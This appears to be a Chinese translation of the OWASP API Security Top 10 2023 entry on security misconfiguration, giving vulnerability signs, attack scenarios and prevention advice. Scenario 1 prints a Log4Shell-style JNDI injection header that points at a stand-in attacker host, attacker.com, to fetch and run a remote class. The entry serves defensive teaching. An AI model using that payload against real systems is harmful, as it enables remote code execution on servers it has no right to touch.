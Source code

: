 API7:2023 安全配置错误
===================================

| 威胁因素/攻击向量                                            | 安全弱点                                                     | 影响                                                         |
| ------------------------------------------------------------ | ------------------------------------------------------------ | ------------------------------------------------------------ |
| API专用：可利用性**3**                                       | 普遍性**3**：可检测性**3**                                   | 技术**2**：业务特定                                          |
| 攻击者经常试图找到未修补的漏洞、常见的端点或未受保护的文件和目录，以获得对系统的未授权访问或了解。 | 安全配置错误可能发生在API栈的任何级别，从网络级别到应用程序级别。可以使用自动化工具检测和利用错误配置，例如不必要的服务或遗留选项。 | 安全配置错误不仅可以暴露敏感的用户数据，还可以暴露系统细节，导致完整的服务器妥协。 |

## API是否容易受攻击？

如果满足以下情况，则API可能容易受攻击：

- 在API栈的任何部分缺少适当的安全加固或云服务权限配置不正确
- 缺少最新的安全补丁或系统已过期
- 启用了不必要的功能（例如HTTP动词、日志记录功能）
- HTTP服务器链中的服务器处理传入请求的方式存在差异
- 缺少传输层安全性（TLS）
- 未将安全或缓存控制指令发送给客户端
- 缺少或设置不正确的跨域资源共享（CORS）策略
- 错误消息包含堆栈跟踪或公开其他敏感信息

## 攻击场景举例

### 场景 #1

一个 API 后端服务器使用一个流行的第三方开源日志工具来维护访问日志，该工具支持占位符扩展和 JNDI（Java 命名和目录接口）查找，两者默认均已启用。对于每个请求，日志文件都会写入一个新的条目，格式如下：`<方法> <api版本>/<路径> - <状态码>`。

一个恶意的攻击者发出以下 API 请求，将其写入访问日志文件：

```
rubyCopy code
GET /health
X-Api-Version: ${jndi:ldap://attacker.com/Malicious.class}
```

由于日志工具的不安全默认配置以及宽松的网络出站策略，在将 `X-Api-Version` 请求头中的值扩展时，日志工具将从攻击者的远程控制服务器中获取并执行 `Malicious.class` 对象，以便写入相应的访问日志条目。

### 场景 #2

一个社交网络网站提供了“直接消息”功能，允许用户进行私密对话。为了获取特定对话的新消息，网站发出以下 API 请求（不需要用户交互）：

```
sqlCopy code
GET /dm/user_updates.json?conversation_id=1234567&cursor=GRlFp7LCUAAAA
```

由于 API 响应未包含 Cache-Control HTTP 响应头，私人对话最终会被 Web 浏览器缓存，从而允许恶意攻击者从文件系统中的浏览器缓存文件中检索它们。

## 如何预防

API的生命周期应该包括以下几个方面：

- 一个可重复的加固过程，以快速、轻松地部署一个适当加固的环境。
- 一个任务来审核和更新整个API堆栈的配置。审核应包括：编排文件，API组件和云服务（例如S3桶权限）。
- 一个自动化的过程，持续评估所有环境中配置和设置的有效性。

此外，还应注意以下几个方面：

- 确保客户端与API服务器和任何下游/上游组件之间的所有API通信都通过加密通信信道（TLS）进行，无论它是内部还是面向公众的API。
- 明确指定每个API可以由哪些HTTP动词访问：所有其他HTTP动词应该被禁用（例如HEAD）。
- 对于预计从基于浏览器的客户端（例如Web应用程序前端）访问的API，实现适当的跨源资源共享（CORS）策略。
- 确保HTTP服务器链中的所有服务器（例如负载均衡器，反向和正向代理以及后端服务器）以统一的方式处理传入的请求，以避免出现不同步问题。
- 在适用的情况下，定义和强制执行所有API响应有效负载模式，包括错误响应，以防止将异常跟踪和其他有价值的信息发送回攻击者。

## 参考资料

### OWASP

* [OWASP Secure Headers Project][1]
* [Configuration and Deployment Management Testing - Web Security Testing
  Guide][2]
* [Testing for Error Handling - Web Security Testing Guide][3]
* [Testing for Cross Site Request Forgery - Web Security Testing Guide][4]

### External

* [CWE-2: Environmental Security Flaws][5]
* [CWE-16: Configuration][6]
* [CWE-209: Generation of Error Message Containing Sensitive Information][7]
* [CWE-319: Cleartext Transmission of Sensitive Information][8]
* [CWE-388: Error Handling][9]
* [CWE-444: Inconsistent Interpretation of HTTP Requests ('HTTP Request/Response
  Smuggling')][10]
* [CWE-942: Permissive Cross-domain Policy with Untrusted Domains][11]
* [Guide to General Server Security][12], NIST
* [Let's Encrypt: a free, automated, and open Certificate Authority][13]

[1]: https://owasp.org/www-project-secure-headers/
[2]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/README
[3]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/08-Testing_for_Error_Handling/README
[4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery
[5]: https://cwe.mitre.org/data/definitions/2.html
[6]: https://cwe.mitre.org/data/definitions/16.html
[7]: https://cwe.mitre.org/data/definitions/209.html
[8]: https://cwe.mitre.org/data/definitions/319.html
[9]: https://cwe.mitre.org/data/definitions/388.html
[10]: https://cwe.mitre.org/data/definitions/444.html
[11]: https://cwe.mitre.org/data/definitions/942.html
[12]: https://csrc.nist.gov/publications/detail/sp/800-123/final
[13]: https://letsencrypt.org/